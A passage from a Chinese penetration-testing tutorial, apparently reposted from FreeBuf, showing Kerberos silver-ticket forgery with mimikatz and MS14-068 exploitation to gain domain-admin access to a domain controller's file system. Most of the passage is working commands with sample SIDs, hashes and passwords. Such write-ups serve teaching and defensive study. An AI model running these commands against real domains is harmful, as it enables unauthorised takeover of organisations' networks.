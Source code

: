 ​    ![image.png](https://image.3001.net/images/20200304/15833022389491.png!small)

​    2、利用Hash制作一张cifs服务的白银票据：

```
kerberos::golden /domain:ABC.COM /sid:  S-1-5-21-3912242732-2617380311-62526969 /target:DC.ABC.COM  /rc4:f3a76b2f3e5af8d2808734b8974acba9 /service:cifs /user:strage /ptt
```

​    ![image.png](https://image.3001.net/images/20200304/15833022478731.png!small)

​    cifs是指的文件共享服务，有了cifs服务权限，就可以访问域控制器的文件系统:

​    ![image.png](https://image.3001.net/images/20200304/15833022549963.png!small)

​    **3.4.4MS14-068**

​    MS14-068域提权漏洞，对应补丁编号：kb3011780，利用该漏洞可以将任何一个域用户提权至域管理员权限。

​    1、在普通域用户机器上直接访问域控制器的C盘目录

​    ![image.png](https://image.3001.net/images/20200304/15833022661721.png!small)

​    2、利用MS14-068伪造生成TGT：

```
MS14-068.exe -u strage@test.com -s S-1-5-21-457432167-2946190674-2696793547-1103 -d 192.168.140.140 -p Admin@str
```

![image.png](https://image.3001.net/images/20200304/15833022761821.png!small)

​    3、利用mimikatz将工具得到的TGT票据写入内存，创建缓存证书：

```
mimikatz.exe "kerberos::ptc TGT_strage@test.com.ccache" exit
```

![image.png](https://image.3001.net/images/20200304/15833022973102.png!small)![image.png](https://image.3001.net/images/20200304/15833023108324.png!small)

​    4、重新执行dir命令：

```
 dir \\dc\C$
```





转载自-->[本文作者：新华三攻防团队FreeBuf.COM](https://www.freebuf.com/articles/system/229200.html)